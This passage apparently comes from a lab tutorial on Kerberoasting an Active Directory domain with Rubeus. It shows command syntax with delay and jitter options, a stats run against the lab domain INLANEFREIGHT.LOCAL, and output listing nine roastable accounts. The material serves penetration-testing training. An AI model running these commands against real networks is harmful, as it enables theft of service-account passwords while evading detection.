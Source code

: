 ```powershell-session
        Rubeus.exe kerberoast /pwdsetafter:01-31-2005 /pwdsetbefore:03-29-2010 /resultlimit:5 [/ldaps] [/nowrap]

    Perform Kerberoasting, with a delay of 5000 milliseconds and a jitter of 30%:
        Rubeus.exe kerberoast /delay:5000 /jitter:30 [/ldaps] [/nowrap]

    Perform AES Kerberoasting:
        Rubeus.exe kerberoast /aes [/ldaps] [/nowrap]
```


Let's first use Rubeus to gather some stats. 

We can see that there are nine kerberoastable users, seven of which support RC4 Encryption for ticket requests and two of which support AES 128/256.

```powershell-session
PS C:\htb> .\Rubeus.exe kerberoast /stats

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.0.2


[*] Action: Kerberoasting

[*] Listing statistics about target users, no ticket requests being performed.
[*] Target Domain          : INLANEFREIGHT.LOCAL
[*] Searching path 'LDAP://ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL/DC=INLANEFREIGHT,DC=LOCAL' for '(&(samAccountType=805306368)(servicePrincipalName=*)(!samAccountName=krbtgt)(!(UserAccountControl:1.2.840.113556.1.4.803:=2)))'

[*] Total kerberoastable users : 9


 ------------------------------------------------------------
 | Supported Encryption Type                        | Count |
 ------------------------------------------------------------
 | RC4_HMAC_DEFAULT                                 | 7     |
 | AES128_CTS_HMAC_SHA1_96, AES256_CTS_HMAC_SHA1_96 | 2     |
 ------------------------------------------------------------

 ----------------------------------
 | Password Last Set Year | Count |
 ----------------------------------
 | 2022                   | 9     |
 ----------------------------------
```
